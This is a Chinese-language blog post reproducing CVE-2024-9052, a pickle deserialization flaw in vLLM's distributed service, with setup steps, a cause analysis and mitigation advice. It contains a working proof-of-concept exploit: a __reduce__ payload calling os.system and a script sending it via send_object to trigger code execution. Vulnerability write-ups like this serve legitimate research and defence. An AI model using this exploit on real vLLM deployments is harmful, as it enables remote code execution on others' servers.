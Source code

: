 ```yaml
---
layout: post
tags: [RealWorld]
title: "CVE-2024-9052复现(vllm 反序列化漏洞复现)"
author: wsxk
comments: true
date: 2025-3-17
---
```



- [1. 环境搭建](#1-环境搭建)
  - [1.1 anaconda](#11-anaconda)
- [2. 漏洞介绍](#2-漏洞介绍)
- [3. 漏洞成因](#3-漏洞成因)
- [4. 漏洞复现](#4-漏洞复现)
- [5. 启示](#5-启示)


# 1. 环境搭建<br>
## 1.1 anaconda<br>
在anaconda官网[https://www.anaconda.com/download](https://www.anaconda.com/download)中填写邮件地址，随后点击邮件的连接下载相应版本即可<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250317204219.png)
随后激活该环境<br>
```
conda create -n vllm_beam python=3.10 -y  #创建一个虚拟环境，用于vllm漏洞复现
conda activate vllm_beam # 环境切换
export TMPDIR=/home/kali/Desktop/anaconda/  #通过情况下，linux虚拟机中的/tmp挂载的文件系统大小是1G左右，无法满足vllm相关内容的所有下载，因此需要切换临时目录。
pip3 install https://github.com/vllm-project/vllm/releases/download/v0.6.4.post1/vllm-0.6.4.post1+cu118-cp38-abi3-manylinux1_x86_64.whl --extra-index-url https://download.pytorch.org/whl/cu118 -i https://pypi.tuna.tsinghua.edu.cn/simple
```

# 2. 漏洞介绍<br>
vllm是一个快速且易于使用的LLM推理和服务库，它结合 iterative-level schedule (continuous batching) 和 PagedAttention 注意力算法以提高服务的吞吐量。前者（iterative-level schedule）以单轮迭代的方式对用户的请求进行处理，即 LLM 生成一个 token 后会重新调度并挑选要下一轮要处理的请求。后者（PagedAttention）受操作系统虚拟内存和分页思想启发，将原本连续的 KV cache 存储在不连续的空间，以避免 KV cache 带来的显存浪费。除开高性能，简单易用也是它的优势之一。<br>
漏洞编号： [CVE-2024-9052](https://www.cve.org/CVERecord?id=CVE-2024-9052)<br>
点开连接，我们会发现改cve编号已经被保留了。<br>
具体原因不详，我猜测可能是因为vllm社区并不认为这是一个漏洞；这么猜测的原因很简单，即使是现在最新的vllm版本，代码还没有被修改。<br>

# 3. 漏洞成因<br>
vllm开启分布式服务时，未对接收的序列化对象进行相应的校验、过滤，导致攻击者可以向vllm分布式服务发送恶意序列化对象造成RCE.<br>
问题出现在`vllm.distributed.GroupCoordinator.recv_object`函数当中<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250317224606.png)
在该函数中，直接使用`pickle.loads`反序列化用户上传的json字符串为python对象。而模式方法会在一些特定的时候被执行，例如__reduce__，使用pickle.loads()进行反序列化时，会自动调用魔术方法__reduce__，因此在该方法中直接返回执行恶意指令，造成RCE。<br>
```python
class payload:
    def __reduce__(self):
        return (__import__('os').system, ("touch /tmp/hacked",))
```


# 4. 漏洞复现<br>
本地启动一个vllm分布式服务<br>
```python
from vllm.distributed import (ensure_model_parallel_initialized,
                              init_distributed_environment, get_world_group)
import vllm
 
init_distributed_environment(backend="gloo", distributed_init_method="tcp://0.0.0.0:29500", rank=1, world_size=2)
vllm.distributed.GroupCoordinator.recv_object(get_world_group(), src=0)
```
再编写一个攻击脚本，其代码如下:<br>
```python
from vllm.distributed import (ensure_model_parallel_initialized,
                              init_distributed_environment, get_world_group)
import vllm
 
class payload:
    def __reduce__(self):
        return (__import__('os').system, ("touch 1.txt",))
 
init_distributed_environment(backend="gloo", distributed_init_method="tcp://127.0.0.1:29500", rank=0, world_size=2)
vllm.distributed.GroupCoordinator.send_object(get_world_group(), obj=payload(), dst=1)
```
执行完成后，server目录下将出现1.txt文件<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250317230128.png)


# 5. 启示<br>
使用vllm时，不要将分布式服务暴露在公网上；如果要暴露，也需要构建正确的鉴权机制。<br>

<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>
